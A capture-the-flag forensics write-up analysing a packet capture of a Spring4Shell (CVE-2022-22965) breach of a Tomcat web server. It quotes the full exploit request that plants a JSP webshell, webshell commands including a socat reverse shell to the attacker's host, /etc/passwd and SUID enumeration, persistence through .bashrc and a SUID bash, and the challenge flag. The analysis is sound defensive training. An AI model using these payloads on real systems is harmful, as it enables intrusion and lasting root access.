

## CHALLENGE INFO
> "I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong."
>  Now there is an internal breach in the `Spooky Network` and you need to find out what happened.
>  Analyze the the network traffic and find how the scary ghosts got in and what they did.

---
We are provided with a zip file `forensics_wrong_spooky_season.zip` containing a pcap file called `capture.pcap`.
When opening the provided pcap file in wireshark we see a bunch of internet traffic.
Most of the traffic is TCP and a small portion is HTTP.
After reading the challenge description, it seems like their website was compromised somehow and we analyst need to figure out how.
Further down towards the bottom of the pcap we observe malicious HTTP requests originating from the IP 192.168.1.180 towards the website.
This knowledge will then be used to backtrack the initial breach from this IP.
The breach is displayed in cronological order even tho the task can be solved without this information being needed.

We start by filtering for http requests in wireshark since we guess that the website was the origin of the initial breach.
This is done by applying the `http.request` filter in wiresharks filter bar.
Now we can quickly follow each http request stream and see if anything seems off in them.
There are some http post requests being made to `POST /spookhouse/home/` this seems weird.
When investigating one of the post requests being made at `2022-10-10 17:29:50` we observe a large javascript string
```HTTP
POST /spookhouse/home/ HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 709

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=HTTP/1.1 200

Content-Type: text/html;charset=UTF-8
Content-Language: en
Transfer-Encoding: chunked
Date: Mon, 10 Oct 2022 17:29:49 GMT
Keep-Alive: timeout=20
Connection: keep-alive
```

When googling some of the code, we get many hits like the one below explaining that this is an indicator of exploitation of the CVE  `Spring4Shell - CVE-2022-22965`
https://blog-internal.pentest-tools.com/detect-exploit-spring4shell-cve-2022-22965/
We then copy this code into cyberchef and URL decode it and then put that result into a javascript beautifier, so that it is more human readable.
This will result in the below output.
```JS
class.module.classLoader.resources.context.parent.pipeline.first.pattern = % {
    prefix
}
i java.io.InputStream in = % {
    c
}
i.getRuntime().exec(request.getParameter("cmd")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
while ((a = in.read(b)) != -1) {
    out.println(new String(b));
} % {
    suffix
}
i & class.module.classLoader.resources.context.parent.pipeline.first.suffix = .jsp & class.module.classLoader.resources.context.parent.pipeline.first.directory = webapps / ROOT & class.module.classLoader.resources.context.parent.pipeline.first.prefix = e4d1c32a56ca15b3 & class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat = HTTP / 1.1 200
```

We can now clearly see that this is a malicious webshell being written to the website.
The webshell named `e4d1c32a56ca15b3.jsp` is written to the websites web-root directory.
The webshell takes a parameter cmd and executes the command that is given to it on the web server.
The attacker is then seen using this webshell the first time at `2022-10-10 17:30:11`	running the `whoami` command
The attacker then gets a response that he is running as the root user.
```HTTP
GET /e4d1c32a56ca15b3.jsp?cmd=whoami HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

  
HTTP/1.1 200

Set-Cookie: JSESSIONID=98B9116B2BCBC803BA9315A7F9AE50FF; Path=/; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 2054
Date: Mon, 10 Oct 2022 17:30:11 GMT
Keep-Alive: timeout=20
Connection: keep-alive


root
```

At `2022-10-10 17:30:17` the attacker und the `id` command.
```HTTP
GET /e4d1c32a56ca15b3.jsp?cmd=id HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

  
HTTP/1.1 200

Set-Cookie: JSESSIONID=8773EC8B72D6C4ADCB5731FCB74D67F9; Path=/; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 2054
Date: Mon, 10 Oct 2022 17:30:16 GMT
Keep-Alive: timeout=20
Connection: keep-alive

  
uid=0(root) gid=0(root) groups=0(root)
```

At `2022-10-10 17:30:28` the attacker is installing the socat tool.
```HTTP
GET /e4d1c32a56ca15b3.jsp?cmd=apt%20-y%20install%20socat HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

At `2022-10-10 17:30:43` the attacker utilizes the newly installed socat program to create a reverse shell on the web server `192.168.1.180:1337` catching it on his local port 1337.
```HTTP
GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

After the attacker establishes a reverse shell we then start seeing TCP traffic at `2022-10-10 17:30:44` between the web server and the attackers IP `192.168.1.180` and Port `1337`, confirming that the reverse shell is now running.


Since the reverse shell is running over TCP, we can just follow the TCP stream in Wireshark and observe the attackers activity in clear text.
```Bash
id
uid=0(root) gid=0(root) groups=0(root)

groups
root

uname -r
5.18.0-kali7-amd64

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemo:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin

find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh

echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash

ls -lha
total 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
-rwxrwx--- 1 root root 1.8K Oct 8 00:04 pom.xml
drwxr-xr-x 3 root root 4.0K Oct 10 17:27 src
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 target
```

It looks like the attacker straight after gaining access to the machine was performing come basic reconnesaince.
The attackers final command looks not related to reconnesaince of the web server. 
They are first adding a reverse shell persistence command socat command to the `/root/.bashrc` file and then echoing a long, reversed, base64 encoded string to `/dev/null` and then finally the attacker set the suid bit on `/bin/bash`. Which is another persistence mechanism that would enable any user to execute commands from `bash` as the files creator which is the `root` user.
So if the user got locked out of the machine as root but not another on the server they can still execute commands as root via the `bash` file.

Now if you have played a lot of HTB you will immediatly notice the `SFRC` beginning of the bsae64 encoded string and know that this is the flag base64 encoded and the string reversed.
So in order to undo this, we can simply run the following command in bash to get the flag.
```Bash
┌──(kali㉿kali)-[~]
└─$ echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d 
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```
